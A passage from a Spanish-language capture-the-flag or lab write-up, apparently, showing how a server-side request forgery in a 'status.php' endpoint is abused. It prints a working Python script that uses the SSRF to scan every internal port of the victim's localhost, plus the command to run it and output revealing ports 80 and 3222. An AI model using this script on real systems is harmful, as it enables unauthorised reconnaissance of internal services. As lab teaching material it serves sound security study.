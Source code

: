 Vemos que efectivamente esta leyendo dicho archivo que esta en dicho puerto, pero si intentamos algo como `file://` no va a funcionar, por lo que hay que seguir investigando el vector de entrada.

Vamos a realizar un escaneo de puerto a nivel interno del servidor, a ver si estuviera alguno de forma interna, por lo que vamos a montarnos un script para ello.

> ssrf\_port.py

```python
import requests
import concurrent.futures

victim_url = "http://<IP_VICTIM>/status.php"
headers = { "Statusid": "1" }

# Detecta si la respuesta parece “normal” para un puerto cerrado
def baseline_response():
    resp = requests.post(victim_url, headers=headers, data={"url": "http://127.0.0.1:9/"}, timeout=5)
    return len(resp.text)

baseline_len = baseline_response()
print(f"[*] Baseline response length: {baseline_len}")

def check_port(port):
    try:
        url = f"http://127.0.0.1:{port}/"
        resp = requests.post(victim_url, headers=headers, data={"url": url}, timeout=5)
        content_len = len(resp.text)

        if content_len != baseline_len:
            print(f"[+] Port {port} OPEN? - Response length: {content_len}")
    except requests.exceptions.Timeout:
        print(f"[-] Port {port} TIMEOUT")
    except requests.exceptions.RequestException:
        pass  # Ignore connection errors (likely closed)

# Usa hilos para mayor velocidad
with concurrent.futures.ThreadPoolExecutor(max_workers=50) as executor:
    ports = range(1, 65536)
    executor.map(check_port, ports)

print("[*] Scan complete.")
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 ssrf_port.py
```

Info:

```
[*] Baseline response length: 339
[+] Port 80 OPEN? - Response length: 3216
[+] Port 3222 OPEN? - Response length: 650
[*] Scan complete.
```
